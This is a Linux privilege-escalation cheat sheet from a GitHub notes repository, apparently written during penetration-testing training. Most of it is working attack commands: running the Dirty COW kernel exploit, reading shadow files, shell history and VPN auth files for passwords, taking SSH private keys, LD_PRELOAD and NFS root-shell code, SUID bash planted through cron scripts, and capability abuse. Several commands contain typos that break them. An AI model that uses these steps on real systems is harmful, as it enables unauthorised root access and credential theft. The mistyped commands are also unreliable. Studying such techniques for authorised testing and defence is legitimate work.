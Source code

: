 # Linux Privilege Escalation

## [Back To Command-Center](https://github.com/encryptedninja/command-center/blob/dev/README.md)

## //cheat-sheet

⚠️ **IMPORTANT NOTE:** This is not a tutorial write-up on how to use the different tools and commands, these are quick notes on how to privesc in Linux.

**For the full tutorial and lectures it is highly recommended to take the LINUX PRIVESC course from [TCM-SECURITY](https://academy.tcm-sec.com/).**

### Resources:

- **[g0tm1lk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)**
- **[hacktricks](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)**
- **[sushant747 OSCP-guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)**

### Automated privesc tools:

- **[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**
- **[linenum](https://github.com/rebootuser/LinEnum)**
- **[linenumsuggester](https://github.com/mzet-/linux-exploit-suggester)**
- **[linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)**

### Escalation path: Kernel exploits

### Kernel exploits are very straight forward. We hunt down what version of kernel is running on the target system and then we exploit it.

- **[resource: lucyoa/kernerl-exploit](https://github.com/lucyoa/kernel-exploits)**
- chek kernel version on target system: `uname -a`
- compile dirty c0w.c first `gcc -phthread c0w.c -o cow`
- use dirty c0w on target machine `./cow`
- c0w output: ***Backing up /usr/bin/passwd to /tmp/bak***
- type in: `passwd` and you're **root**

### Escalation path: Password and file permissions

### Escalation via stored passwords:

- see history if possible, if someone connected to a mysql database with their credentials for example it will show up in there, use command `history`
- cat out the `cat .bash_history` as well
- you can also try using the ***history*** command with ***grep*** to grep for the password: `histroy | grep passwd`
- `ps aux` to see processes
- `w` to see who's logged in
- when asked for a password on the system if you see asterisks while typing out the password in terminal that's a very specific version of ***sudo***, that's usually the **.pwfeedback** is being set. **Any sudo before 1.8.6**. Usually Linux Mint and Elementary OS, get sudo version: `sudo -v` **env_reset.pwfeedback** is being reset.
- ***cat*** out the ****.ovpn*** file to check for credentials or references: `cat myvpn.ovpn` shows that the password is coming from the ***/etc/openvpn/auth.txt*** so we can just cat that file out for credentials

### Escalation via weak file permissions:

- `ls -la /etc/passwd` and `ls -la /etc/shadow` if you can access both and cat them out we can use ***john*** or other similar tools to crack those passwords
- passwd file doesn't have any passwords in it (back in the day it was) , it helps us to ID the users
- **x** is a placeholder in it for the hash which contains the password from the shadow file
- if we can modify /etc/passwd the x in the file we could become root, like delete it, if there's no placeholder we can just switch to root user without a password or change it to 0
- we can change the hash to one where we know the password and become root like that

### Escalation via ssh keys:

- `find / -name authorized_keys 2>/dev/null`
- `find / -name id_rsa 2>/dev/null`
- once the key was found copy it to your machine into a file and don't forget to `chmod 600 id_rsa` to be able to use it to log in via ssh
- `ssh -i id_rsa root@<target IP>`

### Escalation path: sudo

### Preloading

- it's a feature of LD (dynamic linker)
- we're going to preload a user library by running sudo with ID preload and execute our own library before anything else
- `nano shell.c`
- `#include <stdio.h>`
- `#include <sys/types.h>`
- `#include <stdlib.h>`
- `void_init() {`
- `unsetenv("LD_PRELOAD");`
- `setgid(0);`
- `setuid(0);`
- `system("/bin/bash");`
- `}`
- don't forget to include tabs with lines: unsetenv, segid, setuid, system
- compile it: `gcc fPIC -shared -o shell.so shell.co -nostartfile`
- ***fPIC is position independent code***, regardless of what your shell address is, it will work
- need full path to ***shell.so***
- run it: `sudo LD_PRELOAD=/home/usr/shell.so apache2`

### Escalation path: SUID

- to hunt it down: `find / -type f -perm -04000 -ls 2>/dev/null`

### Shared object injection:

- strace is diagnosing, debugging Linux for tampering and monitoring
- `strace /usr/local/bin/suid-so 2>&1`
- grep the output `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`

### Symbolic link

- symbolic link: any file that contains a reference to another file or directory in a form of an absolute or relative path
- create a function and export it: `function /usr/sbin/service() {cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
- export service: `export -f /usr/sbin/service`
- compile it and change path: `gcc /tmp/service/.c -o /tmp/service` and `export PATH=/tmp:$PATH`

### Escalation path: capabilities

- searching for capabilities: `getcap -r / 2>/dev/null`
- found (ex) : `/usr/bin/python2.6 = cap_setuid+ep`
- execute: `/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

### Escalation path: scheduled tasks

- **m h dom mon dow user command** /month, hour, day of month, month, day of week, user, command
- `17 * * *` every 17th minutes execute a command for a user
- `* * * root /user/local/bin/compress.sh`
- `* * * root overwrite.sh`
- then
- `systemctl list-timers --all`
- add to file that root executes via crontab: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`
- wait for crontab to kick in and run: `/tmp/bash -p` and we're root!
- ***note: The -p option in bash and ksh is related to security. It is used to prevent the shell reading user-controlled files.***
- **Another way of overwriting the crontab file is:**
- `cat /usr/local/bin/overwrite.sh`
- `nano /usr/local/bin/overwrite.sh`
- `#!/bin/bash`
- `echo date > /tmp/useless`
- `cp /bin/bash /tmp/bash; chmod +s /tmp/bash`
- now we have overwritten the ***overwrite.sh*** file, now run: `/tmp/bash -p`
- `whoami`
- **root!**

### Escalation via NFS root squashing

- on target machine `cat /etc/exports` shows no root squash but what does this mean? /tmp folder can be mounted from attacking machine!
- `showmount -e <target IP>` results will show up
- `/tm *`
- make a folder on your machine `mkdir /tmp/mountme`
- and mount it: `mount -o rw vers=2 <target IP>:/tmp /tmp/mountme`
- from kali: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c`
- compile it: `gcc /tmp/mountme/x.c -o /tmp/mountme/x`
- chande mod: `chmod +x /tmp/mountme/x`
- now cd over to /tmp on target machine and execute `./x`
- we're root!

### Upgrade your shell on target machine

- `python 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm`
- background your shell with **CTRL+Z**
- `ptty raw -echo; fg`
